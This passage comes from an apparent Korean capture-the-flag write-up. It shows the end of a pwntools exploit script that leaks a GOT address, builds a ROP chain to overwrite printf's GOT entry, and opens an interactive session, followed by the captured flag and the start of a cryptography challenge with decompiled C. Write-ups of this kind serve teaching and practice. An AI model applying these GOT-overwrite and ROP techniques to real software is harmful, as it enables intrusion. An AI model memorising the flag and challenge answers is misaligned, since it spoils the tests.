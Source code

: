 ```python
read_got = u32(p.recv(4))

sys_got = read_got - read_offset

rop2 = ROP(elf)
rop2.read(0,elf.got['printf'],4)
rop2.call(win)

log.info('Stage2')

p.sendline(payload + str(rop2))
sleep(0.1)
p.sendline(p32(sys_got))
sleep(0.1)

p.interactive()
```

![](https://user-images.githubusercontent.com/32904385/63650909-bd7cd580-c78a-11e9-9057-45417d0a89c0.png)

**FLAG : `FLAG{This_is_got_overwrite}`**

<br />

# Cryptography

## 3AsYCrACK_M3

argv로 입력된 값이 encrypt되어 Cdm+V2^U`7 랑 같으면 플래그라고 한다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _BYTE *v4; // [rsp+10h] [rbp-20h]
  signed int v5; // [rsp+1Ch] [rbp-14h]
  char *s; // [rsp+20h] [rbp-10h]
  int i; // [rsp+2Ch] [rbp-4h]

  if ( argc != 2 )
  {
    puts("error");
    exit(0);
  }
  s = argv[1];
  v5 = strlen(argv[1]);
  if ( v5 > 20 )
  {
    puts("error");
    exit(0);
  }
  v4 = malloc(1uLL);
  *v4 = *s;
  for ( i = 0; i < v5 - 1; ++i )
    v4[i + 1] = s[i] + 2 * (s[i + 1] - s[i]) + 3;
  encrypt(s);
  printf("answer is %s\n", v4, argv);
  return 0;
}
```
